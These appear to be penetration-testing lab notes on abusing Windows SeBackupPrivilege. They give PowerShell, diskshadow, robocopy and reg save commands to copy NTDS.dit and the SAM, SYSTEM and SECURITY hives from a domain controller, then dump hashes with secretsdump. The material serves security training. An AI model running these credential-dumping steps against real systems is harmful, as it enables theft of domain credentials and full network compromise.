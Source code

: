 Membership of this group grants its members the `SeBackup` and `SeRestore` privileges. The [SeBackupPrivilege](https://docs.microsoft.com/en-us/windows-hardware/drivers/ifs/privileges) allows us to traverse any folder and list the folder contents. This will let us copy a file from a folder, even if there is no access control entry (ACE) for us in the folder's access control list (ACL). However, we can't do this using the standard copy command
> [!NOTE] Note
> It's worth noting that if a folder or file has an explicit deny entry for our current user or a group they belong to, this will prevent us from accessing it, even if the FILE_FLAG_BACKUP_SEMANTICS flag is specified.


We can use this [PoC](https://github.com/giuliano108/SeBackupPrivilege) to exploit the `SeBackupPrivilege`, and copy this file. 

Import the libraries in a PowerShell session.
```powershell
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll
```

Check if the `SeBackupPrivilege` privilege is enabled
```powershell
whoami /priv
Get-SeBackupPrivilege
Set-SeBackupPrivilege
Get-SeBackupPrivilege
```

Copying a Protected File
```powershell
Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt
```
##### Copying the NTDS.dit
```powershell
PS C:\htb> diskshadow.exe

Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC,  10/14/2020 12:57:52 AM

DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit

PS C:\htb> dir E:

    Directory: E:\

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         5/6/2021   1:00 PM                Confidential
d-----        9/15/2018  12:19 AM                PerfLogs
d-r---        3/24/2021   6:20 PM                Program Files
d-----        9/15/2018   2:06 AM                Program Files (x86)
d-----         5/6/2021   1:05 PM                Tools
d-r---         5/6/2021  12:51 PM                Users
d-----        3/24/2021   6:38 PM                Windows
```

```powershell
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
OR
robocopy /B E:\Windows\NTDS .\ntds ntds.dit
```
##### Backing up SAM and SYSTEM Registry Hives
```powershell
reg save hklm\sam C:\programdata\sam.bak
reg save hklm\system C:\programdata\system.bak
reg save hklm\security C:\programdata\security.bak
```

```powershell
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```